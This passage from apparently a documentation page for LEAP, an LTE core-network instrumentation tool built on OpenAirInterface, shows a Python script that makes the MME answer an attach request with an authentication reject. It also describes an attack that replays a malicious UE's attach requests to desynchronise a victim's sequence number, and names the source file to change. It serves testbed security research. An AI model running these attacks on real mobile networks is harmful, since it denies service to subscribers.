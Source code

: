 The script continuously listens to incoming message from LEAP<sub>S</sub>. According to the instrumentation. It first receives a message with ID LEAP\_ITTI\_MSG. Using le.hold(True), a HOLD\_TRUE is sent to enter if statement at LEAP<sub>S</sub>. Then LEAP\_INITIAL\_NAS\_DATA is received. The NAS message is decoded and message type is extracted to confirm it's ATTACH\_REQUEST. Therefore, the script use le.send\_authentication\_reject(ue\_id) to instruct MME to send an AUTHENTICATION\_REJECT to the UE.

```python
from leap import *
from leap.message_def import *
from leap.ittimsg_def import *
from leap.command_def import *
from leap.leapmessage_def import *
from leap.func import *
buf_size = 4096

le = leap("127.0.0.1","7897")
while True:
	message_id, ue_id, length, msg = le.recv(buf_size)
	if message_id == LEAP_ITTI_MSG:
		le.hold(True)
	elif message_id == LEAP_INITIAL_NAS_DATA:
		nas_msg = le.nas_message_decode(msg)
		message_type = nas_msg.contents.header.message_type
		if message_type == ATTACH_REQUEST:
			le.send_authentication_reject(ue_id)
			le.exit_loop()
	else:
		le.exit_loop()
```
### Authentication Synchronization Failure Attack

#### Principle

1. A malicious UE sends multiple ATTACH\_REQUEST to increase SQN in HSS.
2. Victim UE attaches and receives a Sync failure.

Note: Since HSS only process one ATTACH\_REQUEST if two consecutive ATTACH_REQUEST are the same, the EEA and EIA field of consecutive ATTACH_REQUEST should be modified so that HSS regards them as different ones.

#### Method

In this attack, the malicious UE is simulated by OAI UE and victim UE is a COTS UE. To simulate multiple reception of ATTACH\_REQUEST, a for loop is created in OAI MME. The operation is as follows.

1. Malicious UE sends ATTACH\_REQUEST
2. MME replays the ATTACH\_REQUEST by calling nas_proc_establish_ind 200 times.

The SQN increment is located at openair-cn/src/oai\_hss/db/db\_connector.c:452. The original value is 32. It could be increased to speed up the validation.

#### Instrumentation Example
